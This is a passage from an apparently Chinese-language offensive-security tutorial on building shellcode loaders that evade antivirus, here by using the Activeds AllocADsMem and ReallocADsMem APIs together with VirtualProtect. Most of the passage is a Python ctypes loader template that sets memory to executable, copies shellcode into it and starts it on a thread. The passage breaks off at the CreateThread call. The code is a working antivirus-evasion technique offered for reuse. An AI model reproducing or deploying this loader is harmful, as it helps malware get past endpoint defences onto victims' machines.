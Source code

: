 ## 探寻新的API

​	在上文的学习中可以看出，`shellcode`加载分为`3`步：申请内存->`shellcode`写入内存(-> 修改内存属性)->执行该内存。常用的一些函数基本都被杀软标记查杀了，因此寻找新的`API`来进行代替显得尤为重要。

### AllocADsMem+ReallocADsMem

- `AllocADsMem`：用于分配指定大小的内存块。

```c++
LPVOID AllocADsMem(
  [in] DWORD cb
);
```

- `ReallocADsMem`：用于重新分配并复制现有内存块。

```c++
LPVOID ReallocADsMem(
  [in] LPVOID pOldMem,
  [in] DWORD  cbOld,
  [in] DWORD  cbNew
);
```

​	`AllocADsMem`可以分配一个可读可写但不可执行的内存块；`ReallocADsMem`可以复制指定内容并新申请一块内存来进行存储，但是只能从内存中复制。所以利用思路为：先用`AllocADsMem`分配一个可读可写但不可执行的内存块，接着使用`ReallocADsMem`将`AllocADsMem`分配的内存块复制出来，再用`VirtualProtect`修改内存保护常量为可读可写可执行。

```python
# -*-coding:utf-8 -*-
"""
ctypes库是Python中用来调用系统动态链接库函数的模块，利用ctypes库可以调用C语言的动态链接库并向其传递函数
AllocADsMem+ReallocADsMem+VirtualProtect
"""
import ctypes

shellcode = bytearray(b'')
ctypes.windll.Activeds.AllocADsMem.restype = ctypes.c_uint64
ptr_alloc = ctypes.windll.Activeds.AllocADsMem(
    ctypes.c_int(len(shellcode))
)

ptr_realloc = ctypes.windll.Activeds.ReallocADsMem(
    ptr_alloc,
    len(shellcode),
    len(shellcode)
)

ctypes.windll.kernel32.VirtualProtect(
    ptr_realloc,
    ctypes.c_int(len(shellcode)),
    0x40,
    ctypes.byref(ctypes.c_long(1))
)

buffer = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)

ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr_realloc),
    buffer,
    ctypes.c_int(len(shellcode))
)

handle = ctypes.windll.kernel32.CreateThread(
    ctypes.pointer(ctypes.c_int(0)),
```